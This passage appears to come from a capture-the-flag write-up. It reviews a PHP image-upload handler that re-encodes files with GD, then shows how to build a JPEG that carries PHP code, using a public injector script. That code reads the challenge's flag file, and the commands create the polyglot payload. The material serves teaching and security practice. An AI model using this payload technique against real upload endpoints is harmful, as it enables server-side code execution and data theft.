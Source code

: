The frontend then compresses the image and saves it to the `uploads/` directory with a randomly generated hash:
```php
function makeimg($data, $imgPath, $mime) {
    error_log(substr($data, 0, 32));
    $img = imagecreatefromstring($data);
    switch($mime){
        case 'image/png':
            $with_ext = $imgPath . '.png';
            imagepng($img, $with_ext);
            break;
        case 'image/jpeg':
            $with_ext = $imgPath . '.jpg';
            imagejpeg($img, $with_ext);
            break;
        case 'image/webp':
            $with_ext = $imgPath . '.webp';
            imagewebp($img, $with_ext);
            break;
        case 'image/gif':
            $with_ext = $imgPath . '.gif';
            imagegif($img, $with_ext);
            break;
        default:
            $with_ext = 0;
            break;
        }
    return $with_ext;
}
```

Besides the strict MIME-type checking, nothing seems out of place with this code so far. Note that since any image we submit gets re-encoded on the frontend server, any payload we make has to both be a valid image _and_ survive PHP's recompression algorithm.

Since making such an image sounds _hard_, let's head over to Google and see if anyone has already written a script for this:

![1043247ba1b2ccc7d02bf49938934ee3.png](../../resources/21e35e67a53f4b0193e4c33d0f46a2b2.png)

Like a moth attracted to a light, I immediately clicked on the 3rd search result to [dlegs/php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector), which seems to perfectly fit our use case ("You have a web application that runs a jpeg image through PHP's GD graphics library"). Bingo!

```php
<!-- exploit.php -->
<?=file_get_contents("/flag")?>
```

```sh
$ git clone https://github.com/dlegs/php-jpeg-injector
$ cd php-jpeg-injector
# note: we have to generate a lossless jpeg for gd-jpeg to work
$ ffmpeg -i ../steg-out.png -qscale 0 -compression_level 0 -lossless -o ../steg-out.jpg
$ python gd-jpeg.py ../steg-out.jpg "$(cat ../exploit.php)" ../payload.jpg
```
